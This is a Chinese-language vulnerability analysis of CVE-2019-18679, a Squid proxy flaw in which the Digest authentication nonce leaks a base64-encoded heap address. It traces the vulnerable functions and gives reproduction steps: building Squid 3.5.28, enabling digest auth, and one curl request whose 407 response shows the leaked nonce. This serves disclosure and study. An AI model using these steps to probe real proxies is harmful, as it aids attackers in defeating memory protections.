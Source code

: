 （CVE-2019-18679）Squid 敏感信息泄漏
====================================

一、漏洞简介
------------

Squid是一个开源的高性能的代理缓存服务器。它接受来自客户端的请求并适当地处理这些请求。例如，如果一个人想下载一web页面，他请求Squid为他取得这个页面。Squid随之连接到远程服务器并向这个页面发出请求。然后，Squid显式地聚集数据到客户端机器，而且同时复制一份。当下一次有人需要同一页面时，Squid可以简单地从磁盘中读到它，那样数据迅即就会传输到客户机上。当前的Squid可以处理HTTP，FTP，GOPHER，SSL和WAIS等协议。

几个月之前，Synacktiv
teams对Squid的源码进行审计，发现了几个漏洞，其中一个是在Digest
authentication过程中触发的敏感信息泄漏漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

漏洞发生在fixHeader函数。nonce变量通过authenticateDigestNonceNew函数申请，authenticateDigestNonceNonceb64取出nonce变量的值，通过httpHeaderPutStrf发送给客户端。

![15904903701.jpg](./resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId25.jpg)authenticateDigestNonceNonceb64函数单纯的取出了nonce-\>key的值，重点看下nonce变量和nonce-\>key的赋值过程。

![2.png](./resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId26.png)

函数authenticateDigestNonceNew申请nonce变量![3.png](./resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId27.png)

authDigestNonceEncode函数对nonce-\>noncedata的地址base64编码，赋值给nonce-\>key

![4.png](./resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId28.png)

最后response
header中的nonce字段就是base64编码之后的nonce-\>noncedata的地址。

### 漏洞复现

下载Squid有漏洞的版本，这里我选择了squid/3.5.28。编译安装

    ./configure --enable-auth --enable-auth-digest
    make -j4
    make install

安装完成之后squid的主要目录结构如下：

    /usr/local/squid/
        ├── sbin
        │   └── squid             //squid程序
        ├── libexec               //辅助程序
        │   ├── basic_smb_auth
        │   └── digest_file_auth
        └── etc
        │   └── squid.conf       //配置文件
        └── logs                 //运行日志
            ├── access.log
            └── cache.log

修改配置文件，增加一些内容开启digest auth。

    auth_param digest program <path to program>
    auth_param digest children 8
    auth_param digest realm Access to Squid
    auth_param digest nonce_garbage_interval 10 minutes
    auth_param digest nonce_max_duration 45 minutes
    auth_param digest nonce_max_count 100
    auth_param digest nonce_strictness on

运行squid程序，通过squid代理，访问某个网站。返回header中nonce字段就是泄漏的内存地址。

    curl -I -x 192.168.6.22:3128 https://www.0-sec.org/

    HTTP/1.1 407 Proxy Authentication Required
    Server: squid/3.5.28
    Mime-Version: 1.0
    Date: Wed, 13 May 2020 13:28:15 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 3526
    X-Squid-Error: ERR_CACHE_ACCESS_DENIED 0
    Vary: Accept-Language
    Content-Language: en
    Proxy-Authenticate: Digest realm="Access to Squid", nonce="7/W7XgAAAABwTjQEilUAAE+y+jgAAAAA", qop="auth", stale=false
    X-Cache: MISS from test
    Via: 1.1 test (squid/3.5.28)
    Connection: keep-alive

参考链接
--------

> https://xz.aliyun.com/t/7771

